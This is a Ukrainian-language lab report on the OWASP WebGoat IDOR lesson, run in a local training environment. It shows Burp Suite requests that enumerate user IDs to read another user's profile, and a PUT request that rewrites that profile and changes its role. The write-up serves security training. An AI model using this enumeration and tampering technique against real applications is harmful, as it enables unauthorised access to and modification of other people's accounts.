









# Виконання завдання OWASP WebGoat «Insecure Direct Object References»

## Мета роботи

Дослідити вразливість **Insecure Direct Object References**, пов’язану з відсутністю належної перевірки прав доступу до об’єктів вебзастосунку, а також отримати можливість перегляду та редагування профілю іншого користувача в навчальному середовищі OWASP WebGoat.

## Використане програмне забезпечення

- Kali Linux;
- Docker;
- OWASP WebGoat;
- Burp Suite Community Edition;
- Visual Studio Code.

> Усі дії виконувалися виключно в локальному навчальному середовищі OWASP WebGoat.

## Теоретичні відомості

**Direct Object Reference** — це пряме посилання на об’єкт вебзастосунку за допомогою його ідентифікатора. Таким об’єктом може бути профіль користувача, файл, документ, запис бази даних або інший ресурс.

Приклад прямого посилання:

```text
/WebGoat/IDOR/profile/2342384
```

У цьому шляху число `2342384` є ідентифікатором профілю користувача.

Вразливість **Insecure Direct Object References**, або **IDOR**, виникає тоді, коли сервер приймає ідентифікатор об’єкта від користувача, але не перевіряє, чи має цей користувач право переглядати або змінювати відповідний об’єкт.

Наприклад, якщо користувач може змінити числовий ідентифікатор у URL та отримати доступ до чужого профілю, це свідчить про порушення контролю доступу. Вразливими можуть бути не лише GET-запити, але й методи `POST`, `PUT`, `PATCH` та `DELETE`.

## Хід виконання роботи

### 1. Відкриття завдання та автентифікація

У головному меню OWASP WebGoat було відкрито розділ:

```text
(A1) Broken Access Control → Insecure Direct Object References
```

Для виконання практичного завдання було використано навчальний обліковий запис:

```text
Username: tom
Password: cat
```

Після введення облікових даних було виконано автентифікацію та відкрито наступний етап завдання.



### 2. Перегляд профілю користувача
Після успішної автентифікації було відкрито профіль користувача за допомогою кнопки **View Profile**.

На сторінці WebGoat відображалися такі дані:

```text
name: Tom Cat
color: yellow
size: small
```



### 3. Аналіз відповіді сервера та визначення прихованих атрибутів

Для дослідження даних, які сервер повертає під час перегляду профілю, було відкрито **Burp Suite** та виконано перехід до вкладки:

```text
Proxy → HTTP history
```

У журналі HTTP-запитів було знайдено запит, який надсилався після натискання кнопки **View Profile**:

```http
GET /WebGoat/IDOR/profile HTTP/1.1
Host: www.webgoat.local:8080
```

У відповіді сервер повернув дані профілю користувача у форматі JSON:

```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```




Порівняння відповіді сервера з інформацією, відображеною на сторінці WebGoat, показало певні відмінності. У браузері користувачу були показані лише такі атрибути:

```text
name: Tom Cat
color: yellow
size: small
```

Водночас у повній відповіді сервера додатково містилися поля:

```text
role
userId
```

Поле `role` визначає роль користувача в системі, а поле `userId` містить його унікальний ідентифікатор. Ці значення не відображалися на сторінці, однак були доступні у відповіді сервера та могли бути переглянуті за допомогою Burp Suite.

У відповідне поле завдання було введено назви двох прихованих атрибутів:

```text
role, userId
```

Після натискання кнопки **Submit Diffs** WebGoat підтвердив правильність відповіді повідомленням:

```text
Correct, the two attributes not displayed are userId & role.
Keep those in mind.
```




Отже, було встановлено, що вебінтерфейс відображає не всі дані, які повертає сервер. Особливо важливим для наступних етапів є значення `userId`:

```text
2342384
```

Цей ідентифікатор надалі використовується для формування прямого посилання на профіль користувача.

### 4. Формування прямого посилання на власний профіль

На наступному етапі необхідно було визначити альтернативний шлях для перегляду власного профілю за допомогою прямого посилання на об’єкт.

Під час аналізу попередньої відповіді сервера було встановлено значення `userId` користувача Tom:

```text
2342384
```

Вебзастосунок використовує REST-подібну структуру адрес, у якій ідентифікатор об’єкта додається безпосередньо до шляху запиту. На основі цього було сформовано адресу профілю:

```text
WebGoat/IDOR/profile/2342384
```

У цьому шляху:

- `WebGoat/IDOR/profile` — адреса ресурсу профілю;
- `2342384` — унікальний ідентифікатор користувача Tom.

Сформований шлях було введено у відповідне поле завдання та надіслано за допомогою кнопки **Submit**.

Після перевірки WebGoat відобразив повідомлення:

```text
Congratulations, you have used the alternate Url/route to view your own profile.
```

Також у відповіді було повторно показано дані профілю користувача:

```text
role=3
color=yellow
size=small
name=Tom Cat
userId=2342384
```




Отже, було встановлено шаблон адреси для доступу до профілю конкретного користувача:

```text
/WebGoat/IDOR/profile/{userId}
```

Наявність числового ідентифікатора безпосередньо в адресі створює можливість зміни значення `userId` та спроби отримання доступу до профілю іншого користувача.

### 5. Перегляд і редагування профілю іншого користувача

На попередньому етапі було встановлено шаблон прямого посилання на профіль користувача:

```text
/WebGoat/IDOR/profile/{userId}
```

Оскільки значення `userId` передається безпосередньо в адресі запиту, було виконано перевірку можливості доступу до профілів інших користувачів шляхом зміни числового ідентифікатора.

#### 5.1. Пошук профілю іншого користувача

HTTP-запит для перегляду профілю користувача Tom було передано до інструмента **Intruder** у Burp Suite.

Початковий запит мав такий вигляд:

```http
GET /WebGoat/IDOR/profile/2342384 HTTP/1.1
Host: www.webgoat.local:8080
```

У вкладці **Positions** як змінну частину було позначено лише значення `userId`:

```http
GET /WebGoat/IDOR/profile/§2342384§ HTTP/1.1
```

Для пошуку іншого профілю було обрано числовий тип корисного навантаження та встановлено такий діапазон:

```text
From: 2342384
To: 2342399
Step: 1
```

Таким чином, Burp Suite послідовно підставляв різні ідентифікатори до шляху запиту та аналізував відповіді сервера.




У результатах перебору було виявлено відповідь зі статусом `200 OK`, яка містила профіль іншого користувача:

```text
role=3
color=brown
size=large
name=Buffalo Bill
userId=2342388
```

Отже, профіль користувача Buffalo Bill був доступний за прямим посиланням:

```text
/WebGoat/IDOR/profile/2342388
```

Сервер також повернув повідомлення:

```json
{
  "lessonCompleted": true,
  "feedback": "Well done, you found someone else's profile."
}
```




Отриманий результат демонструє порушення горизонтального контролю доступу. Автентифікований користувач Tom зміг переглянути дані іншого користувача того самого вебзастосунку лише шляхом зміни значення `userId`.

#### 5.2. Редагування профілю іншого користувача

На наступному етапі необхідно було перевірити можливість не лише перегляду, а й редагування чужого профілю.

Успішний GET-запит до профілю Buffalo Bill було передано до інструмента **Repeater**. Після цього HTTP-метод було змінено з `GET` на `PUT`:

```http
PUT /WebGoat/IDOR/profile/2342388 HTTP/1.1
Host: www.webgoat.local:8080
Content-Type: application/json
```

До тіла запиту було додано JSON-об’єкт із даними користувача. Відповідно до умов завдання роль було зменшено до `1`, а колір змінено на `red`:

```json
{
  "role": 1,
  "color": "red",
  "size": "large",
  "name": "Buffalo Bill",
  "userId": "2342388"
}
```

Після надсилання сформованого PUT-запиту сервер повернув відповідь:

```json
{
  "lessonCompleted": true,
  "feedback": "Well done, you have modified someone else's profile."
}
```

У відповіді також були відображені оновлені дані профілю:

```text
role=1
color=red
size=large
name=Buffalo Bill
userId=2342388
```




Після повернення до сторінки WebGoat індикатор п’ятого етапу змінив колір із червоного на зелений, що підтвердило успішне виконання обох частин завдання.




